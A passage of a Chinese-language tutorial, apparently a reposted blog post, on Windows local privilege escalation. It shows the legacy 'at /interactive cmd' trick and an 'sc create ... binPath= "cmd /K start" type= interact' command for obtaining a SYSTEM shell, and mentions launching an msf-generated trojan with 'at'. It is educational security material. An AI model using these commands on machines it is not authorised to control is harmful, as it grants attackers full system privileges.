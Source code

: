 因为at命令在win7、win8等高版本取消，以下例子来自于网络：最全Windows提权总结（建议收藏） - 随风kali - 博客园  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMpPD36Actic82CdxrXpCBwXwUnmRCcykooXnEVJjXYia5PlDzJmic6qicRMkeRaHj4UiabGVQd0tATCXQ/640?wx_fmt=jpeg&from=appmsg "")  
  
例如我想在一分钟后开启交互式命令提示符  

```
at 10:39 /interactive cmd

```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMpPD36Actic82CdxrXpCBwXQH9mEJ2KWic5YDlVaX5uyvtribQK2y2ObCMicnR4IFzRRjmYhware2Acw/640?wx_fmt=jpeg&from=appmsg "")  
  
一分钟后：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMpPD36Actic82CdxrXpCBwXpGR3sSmXicMHLXgDVeNsUtXh31dsphialzoX0g1GPxoUlsjn4tbxbweA/640?wx_fmt=jpeg&from=appmsg "")  
  
如图已经是system的权限，但只是cmd中的system的权限，当前电脑使用者还是普通用户，为了完全提权，我们可以在system的cmd里面输入taskmgr.exe来启动任务管理器，然后结束之前的桌面进程，再重新开启一个桌面进程  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMpPD36Actic82CdxrXpCBwX4ibKA5bzPJg9Ipvaewt54olibGFOCorV5YfwtbnmO4d7dNwHhSovoLsw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMpPD36Actic82CdxrXpCBwXfJZJBs9icXTYoe7ctcoFwq3oH9ic6QPEvdnKib5jPbg8uo0Y4reN58MoQ/640?wx_fmt=jpeg&from=appmsg "")  
  
或者利用msf生成的木马文件，然后使用at命令运行这个木马文件，后面会讲到如何利用  
#### 3、sc命令利用  
##### 首先来了解什么是sc命令：  
- 
```
sc
```

  
命令是 Windows 操作系统中的一个强大的命令行工具，用于与服务控制管理器 (Service Control Manager, SCM) 通信，以查询服务状态信息，或配置服务设置（包括服务启动类型、服务依赖等）。  
  
- 语法  

```
sc [command] [service name] [options]

query: 查询服务的状态或配置信息。	start: 启动服务。	stop: 停止服务。
config: 更改服务的配置。 		   create: 创建新服务。  delete: 删除服务。

例如，将 “Spooler” 服务的启动类型更改为自动：
sc config Spooler start= auto

```

  
使用如下命令  

```
sc create systemcmd binPath= &#34;cmd /K start&#34; type= own type= interact

```
